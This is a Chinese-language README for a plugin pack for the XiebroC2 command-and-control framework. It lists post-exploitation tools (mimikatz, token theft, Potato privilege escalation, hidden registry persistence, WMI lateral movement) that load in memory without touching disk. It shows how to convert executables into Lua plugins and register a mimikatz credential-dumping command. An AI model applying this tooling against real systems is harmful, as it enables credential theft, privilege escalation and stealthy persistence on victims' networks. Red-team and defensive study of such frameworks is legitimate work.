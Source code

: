 





## 使用

```
git clone https://github.com/INotGreen/Xiebro-Plugins.git
```

Manage->Plugins->Load，加载main.lua即可

载入Sesion中你会得到更多得命令

![image-20240818163749325](Image/image-20240818163749325.png)



## 工具

目前已经扩展下面的工具,全部采用无文件落地的方式进行内存加载

|                           工具                           |                             描述                             |
| :------------------------------------------------------: | :----------------------------------------------------------: |
|       [fscan](https://github.com/shadow1ng/fscan)        |      内网综合扫描工具，方便一键自动化、全方位漏扫扫描。      |
|    [mimikatz](https://github.com/gentilkiwi/mimikatz)    |      从内存中提取明文密码、哈希、PIN 码和 Kerberos 票证      |
|    [RegHide](https://github.com/outflanknl/SharpHide)    |                     添加隐藏注册表启动项                     |
|     [SharpKatz](https://github.com/b4rtik/SharpKatz)     |          mimikatz的C#版本，用于获取明文密码和dcsync          |
|   [SharpScan](https://github.com/INotGreen/SharpScan)    | 内网资产收集、探测主机存活、端口扫描、域控定位、文件搜索、密码爆破和账号枚举 |
| [SharpToken](https://github.com/BeichenDream/SharpToken) |  Token窃取，切换System和administrator权限，用于提权降权场景  |
|    [SweetPotato](https://github.com/CCob/SweetPotato)    |                 将服务器权限提升至System权限                 |
|    [SharpWMI](https://github.com/QAX-A-Team/sharpwmi)    |      基于135端口的横向移动工具，可以执行命令，上传文件       |
|  [BadPotato](https://github.com/BeichenDream/BadPotato)  |                 将服务器权限提升至System权限                 |
|  [GodPotato](https://github.com/BeichenDream/GodPotato)  |                 将服务器权限提升至System权限                 |





XiebroC2的插件做到极度的简洁化，几乎只需一行代码你就可以为它添加一个外部命令

用Convert.ps1脚本可以直接将C/C++/Go/rust/.net/Bin等PE直接转成lua脚本

```powershell
Import-Module .\Convert.ps1
```

```powershell
Convert-ExeToBase64Lua -i "C:\Users\admin\Desktop\mimikatz.exe" -o "mimikatz.lua" -Command "Mimikatz" -LoadModule "inline-execute" -Description "Get windows password credentials" -Usage "Mimikatz <args>"
```



参数解释

```lua
-i:            选择输入的文件
-o:            输出的文件
-Command:      命令的名称
-LoadModule:   加载模式
-Description:  描述
-Usage:        使用方法
```



用于添加外部命令的函数主要有两个，AddCommand_W和AddCommand_A的区别在于：AddCommand_A打包了exe的使用参数，例如你可以直接使用logonpassword ，可以这样：

```lua
AddCommand_A(
    "logonpasswords",                                      --命令名称
     mimikatz,                                            --Base64Compress
    "privilege::debug sekurlsa::logonpasswords exit",      --exe的参数
    "inline-execute",                                      --加载模式
    "Get password credentials on windows",                 --命令描述
    "logonpasswords"                                       --使用方法
);
```

如果不需要参数，则直接使用AddCommand_W

```lua
AddCommand_W(
    "mimikatz",
    mimikatz,
    "inline-execute",
    "Get password credentials on windows",
    "mimikatz <args>"
);
```



这里的LoadModule(加载模式)有四种

```lua
inline-execute                                     --内联加载C/C++/go/rust的exe文件
inline-execute-bin                                 --内联加载C/C++/go/rust的bin文件
inline-assembly	                                   --内联加载.net文件
execute-assembly                                   --Fork&&Run模式(创建子进程)进行内存加载.net文件
```



